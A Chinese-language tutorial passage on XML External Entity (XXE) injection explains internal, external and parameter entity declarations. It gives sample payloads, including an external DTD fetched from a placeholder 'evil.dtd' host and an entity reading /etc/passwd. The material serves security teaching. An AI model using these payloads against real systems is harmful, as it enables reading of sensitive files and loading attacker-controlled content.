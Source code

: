 3. 懂了这些的话，就带大家逐步去看一下上图所示的每一个部分

第一个部分是 XML 声明，知道有这个东西就好了，绝大部分用上面图片那个引用就行

第二个部分是 DTD 实体声明（重点学习）：

- 内部实体声明

```
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY xxe "Thinking">]>
<foo>&xxe;</foo>
```

Tips：一个实体由三部分构成:&符号,实体名称,分号(;)，这里&不论在 GET 还是在 POST 中都需要进行 URL 编码，因为是使用参数传入 xml 的，&符号会被认为是参数间的连接符号

![](4.png)

- 外部实体声明

外部引用可支持 http，file 等协议，不同的语言支持的协议不同，但存在一些通用的协议，具体内容如下所示：

![](5.png)

示例：

```
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://远程服务器/evil.dtd">
<a>&b;</a>
```

DTD 文件内容：

```
<!ENTITY b SYSTEM "file://etc/passwd">
```

- 参数实体声明（这个在后面无回显的时候会遇到的）

先做个简要的区分：

```
参数实体的话用% name申明，引用时用%name;，只能在DTD中申明，DTD中引用

就相当于是嵌套了两层一样

其余实体直接用name申明，引用时用&name;，只能在DTD中申明，可在xml文档中引用
```

而这个参数实体既能本地调用，又可以远程调用，详情如下

```
<!ENTITY % 实体名称 "实体的值">
or
<!ENTITY % 实体名称 SYSTEM "URI">
```

下面来给一个远程的示例：

```
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
```

